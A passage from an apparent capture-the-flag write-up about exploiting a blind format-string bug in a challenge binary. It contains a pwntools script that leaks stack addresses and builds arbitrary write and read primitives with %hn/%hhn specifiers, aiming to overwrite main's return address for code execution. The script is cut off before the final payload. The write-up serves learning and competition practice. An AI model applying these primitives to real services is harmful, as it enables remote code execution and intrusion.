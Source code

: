 ```c
}
```

While incomplete, this showed me roughly what was going on with the binary, and revealed a new functionality as I could now type "exit\x00" to cause the binary to return from main. After a frustrating journey looking at the slow leaking, I gave up and started working towards an RCE with what information I had. I had initially tried to prepare an arbitrary write to overwrite the GOT entry of `printf`, however this failed and I assume it's because the GOT may be readonly. Thus I had to leverage the ability to return from main, overwriting the saved return address of main to control `RIP` instead. After some painful blind crashing and lots of testing I finally created the following payload to gain RCE.

```python
from pwn import *

r = remote("fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg", 42000)
r.recvuntil("Implemented\n")

def f(s):
        sleep(0.1)
        r.sendline(s+"_END_")
        return r.recvuntil("_END_", drop=True)

# Stack reference
stack_leak = int(f("%84$p"), 16)-1-8*88
log.info("stack_leak: {:#x}".format(stack_leak))

def p2i(ptr):
        delta = ptr - stack_leak
        return delta//8

_cursor = int(f("%39$p"), 16)
def cursor(ptr):
        global _cursor
        delta = _cursor ^ ptr
        if delta > 0xffff:
                log.error("Bad ASLR")
                exit()
        if delta > 0xff:
                payload = "%{}c".format(ptr & 0xffff)
                payload+= "%11$hn"
        else:
                payload = "%{}c".format(ptr & 0xff)
                payload+= "%11$hhn"
        f(payload)
        _cursor = ptr

_cursor2 = 0
def cursor2(ptr):
        global _cursor2
        ptr_base = stack_leak+(40-1)*8
        delta = _cursor2 ^ ptr
        i = 0
        while delta:
                cursor(ptr_base+i)
                payload = "%{}c".format(ptr & 0xffff)
                payload+= "%39$hn"
                f(payload)
                ptr >>= 16; delta >>= 16; i+=2
        _cursor2 = ptr

def arb_read(ptr):
        cursor2(ptr)
        return f("%40$s")
```